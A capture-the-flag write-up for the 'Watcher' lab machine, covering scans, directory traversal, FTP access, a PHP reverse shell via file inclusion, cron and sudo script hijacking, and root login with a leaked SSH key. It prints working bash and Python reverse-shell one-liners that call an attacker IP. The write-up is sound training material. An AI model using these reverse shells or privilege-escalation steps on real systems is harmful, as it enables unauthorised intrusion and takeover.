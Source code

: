 ```yaml
---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---
```


  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website
![[images/Pasted image 20230707155443.png]]


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  ![[images/robot.txt.png]]
  - Secret File not accessable
##### flag_1.txt
![[images/Pasted image 20230707155735.png]]

### Directory Traversal possible
![[images/Pasted image 20230707162434.png]]
##### User List:
- toby
- mat
- ftpuser
- will
-> Sensitive file: Secret file do not read
![[images/Pasted image 20230707162723.png]]
-> Access to ftp
![[images/Pasted image 20230707163026.png]]
##### flag_2.txt
![[images/Pasted image 20230707163105.png]]
#### Local File Inclusion
-> Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit
![[images/flag_locations.png]]
##### Flag_3.txt:
![[images/Pasted image 20230707163842.png]]
Can execute sudo without password
![[images/Pasted image 20230707164347.png]]
Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc
![[images/Pasted image 20230707164754.png]]
There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
-> Every Minute cow.sh script is running
![[images/Pasted image 20230707165303.png]]
Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt
![[images/Pasted image 20230707173036.png]]
Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`
-> Got Access with will
![[images/Pasted image 20230707174117.png]]
```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
-> Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt
![[images/Pasted image 20230707182523.png]]